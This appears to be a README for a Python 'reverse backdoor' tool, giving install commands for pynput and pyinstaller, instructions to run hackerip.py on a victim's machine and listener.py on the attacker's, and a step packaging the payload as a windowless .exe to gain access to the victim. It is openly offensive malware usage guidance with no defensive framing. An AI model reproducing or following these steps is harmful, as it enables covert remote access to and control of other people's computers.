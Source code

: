 # Reverse Backdoor

1. Required Installation  (Run as admin):
   ```
   pip install pynput pyinstaller
   ```
   

2. hackerip.py (Main file to run in victim or target machine). This starts the backdoor process. Remember both rbackdoor.py and hackerip.py files must be      in the victim machine to work this:
   ```
   python hackerip.py
   ```


3. listener.py (run this file on the attacker or hacker machine to listen ). This waits for the victim to connect:
   ```
   python listener.py
   ```

5. You can covert hackerip.py to .exe using the command ( the output .exe file can be used to get access to the victim mahcine):
   ```
   pyinstaller hackerip.py --onefile --noconsole
   ```



